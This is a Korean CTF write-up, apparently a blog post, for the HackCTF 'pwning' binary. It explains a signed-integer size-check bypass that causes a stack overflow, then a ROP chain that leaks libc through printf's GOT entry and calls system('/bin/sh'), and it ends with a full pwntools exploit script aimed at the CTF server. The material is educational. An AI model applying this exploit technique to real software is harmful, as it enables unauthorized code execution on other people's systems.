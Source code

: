 ```yaml
---
layout: post
title:  "HacCTF pwning write-up"
date:   2020-02-03 19:45:55
image:  hackctf_pwning.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] pwning

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled.png)

NX 비트 말고는 안걸려있다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%201.png)

몇 바이트를 입력할 것인지 사이즈를 묻고, 해당 사이즈 만큼 값을 입력할 수 있는 공간이 나온다. 그 뒤 입력한 데이터를 출력해주고 프로그램이 종료가 된다

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%202.png)

main 문은 별게 없고 vuln을 자세히 보면 된다. get_n 함수가 값을 입력할 수 있는 함수인 것같다. 또한 입력한 값의 범위는 32 미만으로 제한되어 있다.

32 미만의 값을 입력하면 get_n 함수를 한번 더 호출하여 데이터를 입력하게 된다. 그럼 get_n 함수를 살펴보자.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%203.png)

while문을 돌면서 getchar()를 통해 문자열을 입력받는다. 해당 반복문을 탈출하는 조건으로는 널 값을 입력하거나, get_nt 함수의 두번째 인자로 전달된 값보다 v5가 큰 경우에 탈출한다. 그리고 마지막으로 입력한 값이 10이면 종료를 한다.

여기서 v4==10의 의미는 getchar()가 호출되어 사용자가 데이터를 입력하고 엔터를 누르면 해당 엔터에 해당하는 아스키 값인 0xa까지 같이 들어가기 때문에 문자열의 끝을 판단하기 위한 조건이다.

해당 함수가 종료되고 atoi 함수를 이용하여 nptr 변수에 저장된 문자열을 정수로 변환 한다.

### 2. 접근방법

---

결국 이 문제도 사용자의 입력을 받는 부분에서 시작하여 비정상적인 위치에 원하는 값을 넣고 비정상적인 코드의 동작을 유발하는 것이 목적이다.

딱 봐도 ROP로 system 함수를 띄우는 것이 최종 목표로 보인다. 그렇다면 ret 값을 변경 할수 있는지 봐야한다. 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%204.png)

vuln 함수를 다시 보면 atoi의 반환값이 v2에 들어간다. 헌데 v2는 signed int 형이므로 음수가 입력이 가능하다. 따라서 음수가 입력가능하다는 소리이고, 이를 통해 32보다 큰 데이터를 입력할 수 있다.

확인을 하다보면 get_n 함수에서 48바이트 크기의 문자열을 아무렇게 입력하게 되면, vuln 함수의 ret 바로 직전까지 해당 데이터가 들어간 것을 알수 있다. (이는 문제를 풀다보니 꼼수아닌 꼼수로..)

결국 "A"*48 + 특정 함수 이렇게 입력을 하면 vuln 함수가 return 되고 main으로 가는 것이 아닌 삽입한 주소로 이동한다. 하지만 vuln에서는 반복적인 로직이 아니므로 바로 종료가 된다.

우리가 필요한 것은 libc의 base주소이다. 따라서 printf의 ptl, got를 이용하여 libc의 printf 주소를 leak하고 다시 vuln함수로 돌아가도록 체인을 걸어줘야 한다.

그다음 얻게 된 printf 주소로 libc database를 활용하여 원하는 오프셋을 구하여 ROP를 진행하면 된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%205.png)

아래 0xf7dea020가 libc에 존재하는 printf의 주소이다.  하위 3바이트를 가지고 어느 버전의 libc인지 알아보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%206.png)

ubuntu20의 2.23 버전인 것을 확인할 수 있고 또한 printf, bin_sh, system 함수의 오프셋을 확인 가능하다. 이를 이용하여 ROP를 진행하면 끝이다.

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    
    p=remote("ctf.j0n9hyun.xyz",3019)
    #p=process("./pwning")
    #gdb.attach(p)
    p.sendlineafter("? ","-5")
    
    payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    payload +=p32(0x8048370)
    payload +=p32(0x804852f)
    payload +=p32(0x804a00c)
    p.sendlineafter("\n",payload)
    p.recvuntil("\n")
    printf_got=u32(p.recv()[:4])
    log.info(hex(printf_got))
    
    
    libc_base=printf_got-0x049020
    system_adr=libc_base+0x0003a940
    bin_adr=libc_base+0x15902b
    
    payload2="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    payload2+=p32(system_adr)
    payload2+="AAAA"
    payload2+=p32(bin_adr)
    
    p.sendline("-5")
    p.sendlineafter("\n",payload2)
    
    p.interactive()

### 4. 몰랐던 개념

---

모르는 개념은 없었지만, ROP를 진행하기 위해 반복문이 없어서 삽질을 좀 했다. 반복문이 없다면 만들면 될것을..

이렇게 반복문이 없는 로직에서 직접 해당 함수로 다시 돌아가는 ROP 문제를 몇개 풀었었는데 이젠 까먹지 말자.